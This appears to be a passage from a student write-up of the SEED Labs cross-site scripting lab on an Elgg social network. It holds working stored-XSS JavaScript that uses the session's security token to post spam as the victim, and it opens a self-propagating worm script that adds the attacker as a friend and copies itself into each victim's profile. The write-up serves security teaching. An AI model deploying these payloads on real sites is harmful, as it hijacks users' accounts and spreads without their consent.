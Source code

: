 Similar to task 2 we can create a formData object with the necessary fields and send a POST request to `/action/thewire/add` with the appropriate fields.

```html
<script type="text/javascript">

	window.onload = function(){
        if(elgg.session.user.guid && elgg.session.user.guid != 59 ){
    
            let formData = new FormData();
            let ts=elgg.security.token.__elgg_ts;
            let token=elgg.security.token.__elgg_token;
            
            let post = "To earn 12 USD/Hour(!), visit now http://www.seed-server.com/profile/samy"
            
            formData.append('__elgg_token', token);
            formData.append('__elgg_ts', ts);
            formData.append('body', post);
           
        
            var sendurl ="http://www.seed-server.com/action/thewire/add" 
        
        
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.send(formData);
        }
	}
</script>
```

## Task 4 - Design a Self-Propagating Worm

Objective : Design a self-propagating worm that can spread on its own when a user visits the attacker’s profile.

When successfully implemented, your designed worm should behave in the following way:
 - Samy adds the worm’s code to his profile.
 - Alice visits Samy’s profile, and the worm sends a friend request to Samy without Alice clicking the add friend button.
 - The worm replicates itself by modifying Alice’s profile and posting Alice’s profile link on the wire.


For this we need to combine the scripts from task 1 and 2. First it will add Samy as a friend then it will copy the script from the profile and add it to the victim's description. Then when another victim visits the first victim's profile, the worm will get copied to the second victim's profile and so on.

To copy the code, we can give the script a unique id and then get the innerHTML of the script tag and add it to the victim's description.

```html
<script id=worm type="text/javascript">

    function generateRandomString(length) {
        return Array.from({ length: length }, () => 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'[Math.floor(Math.random() * 62)]).join('');
    }

	window.onload = function(){
        if(elgg.session.user.guid && elgg.session.user.guid != 59 ){
            

            // add friend
            var Ajax=null;
```